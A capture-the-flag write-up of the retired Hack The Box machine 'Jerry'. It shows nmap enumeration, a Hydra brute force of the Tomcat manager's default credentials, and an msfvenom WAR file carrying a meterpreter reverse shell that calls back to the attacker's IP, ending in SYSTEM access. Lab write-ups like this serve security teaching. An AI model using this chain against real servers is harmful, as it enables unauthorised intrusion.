 # Jerry

This is the write-up for the box Jerry that got retired at the 17th November 2018.
My IP address was 10.10.14.17 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.95    jerry.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/jerry.nmap 10.10.10.95
```

```markdown
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

## Checking HTTP (Port 8080)

On the web page is the default page of a **Tomcat** installation.
The administration page of a default Tomcat server can be found in the _/manager_ directory or clicking on _"Manager App"_.

It asks for a password, so lets try to crack it with **Hydra**:
```markdown
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.10.10.95 -s 8080 http-get /manager/html
```

The default credentials _"tomcat:s3cret"_ were found and we can log in to the administration page.

### Exploiting Tomcat Web Application Manager

As Tomcat implements Java Servlets, it is possible to upload **Web Application Archive (WAR)** files on the server which is essentially packaged Java code.
Lets create a WAR file with Java code that starts a reverse shell with **Msfvenom**:
```markdown
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=9001 -f war -o shell.war
```

> Any JSP shell archived in a WAR file can be used for this. There is also one from [SecurityRiskAdvisors on Github](https://github.com/SecurityRiskAdvisors/cmd.jsp)

Starting the listener in **Metasploit**:
```markdown
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
msf5 exploit(multi/handler) > set LPORT 9001

msf5 exploit(multi/handler) > exploit -j
```

Now we can deploy the _shell.war_ file on the server and when clicking on _"/shell"_ in the applications, it shows a HTTP error code _404 Not Found_.
This is because the full name of the **JSP** file in the WAR file has to be requested, which can be found out by unzipping it:
```markdown
unzip shell.war

# Output
(...)
inflating: iklfcfrjeti.jsp
```

So after requesting it on _"http[:]//10.10.10.95:8080/shell/iklfcfrjeti.jsp"_ the meterpreter listener starts a session on the box as _NT Authority/SYSTEM_ and the box is done!
